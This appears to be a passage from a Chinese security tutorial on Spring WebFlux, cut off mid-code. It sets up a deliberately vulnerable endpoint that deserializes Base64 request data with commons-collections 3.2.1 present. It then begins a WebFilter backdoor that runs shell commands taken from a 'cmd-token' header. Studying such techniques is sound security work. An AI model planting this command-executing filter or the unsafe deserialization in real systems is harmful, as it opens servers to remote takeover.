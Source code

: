 ### 实例

首先在 webflux 应用中引入了存在 CC 利用链的依赖

```bash
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

创建一个 POST /vuln 路由，用来接收 Base64 编码的序列化数据

```bash
@Bean
public RouterFunction<ServerResponse> routeVuln(GreetingHandler greetingHandler) {
    return RouterFunctions.route(RequestPredicates.POST("/vuln").and(RequestPredicates.accept(MediaType.APPLICATION_FORM_URLENCODED)), greetingHandler::vuln);
}
```

一个处理请求进行反序列化调用的 handler

```bash
public Mono<ServerResponse> vuln(ServerRequest request) {
        return request.bodyToMono(String.class)
                .flatMap(data -> {
                    try {
                        // 输出接收到的 data 参数值
                        System.out.println("Received data: " + data.substring(3));
                        // 进行 Base64 解码
                        byte[] bytes = Base64.getDecoder().decode(URLDecoder.decode(data.substring(3)));

                        // 创建输入流并进行反序列化
                        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
                        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
                        Object deserializedObject = objectInputStream.readObject();

                        return ServerResponse.ok().build(); // 返回一个表示处理成功的响应
                    } catch (Exception e) {
                        e.printStackTrace();
                        return ServerResponse.status(500).build(); // 返回一个表示处理失败的响应
                    }
                });
```

自定义的 filter 的逻辑

1.  通过从`ServerWebExchange`中获取请求头`cmd-token`进行执行命令的传入
2.  通过 response.writeWith 方法传入一个`Publisher`进行命令直接结果的返回

```bash
@Override
    public reactor.core.publisher.Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        try {
            String cmd = exchange.getRequest().getHeaders().get("cmd-token").get(0);
            if (cmd != null) {
                try {
                    ProcessBuilder processBuilder;
                    String o = "";
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        processBuilder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                    } else {
```